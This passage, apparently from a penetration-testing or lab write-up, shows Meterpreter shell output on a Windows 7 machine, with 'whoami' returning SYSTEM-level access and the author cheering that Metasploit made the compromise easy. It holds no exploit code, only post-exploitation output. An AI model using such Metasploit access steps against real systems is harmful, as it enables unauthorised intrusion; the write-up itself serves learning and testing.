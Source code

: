 ~~~
meterpreter > shell
Process 1260 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
~~~
Yeah! I've owned the system by gaining access as "nt authority\system"!!! Okay, it was pretty easy with MetaSploit, but still it was feeling well to capture this machine pretty fast.



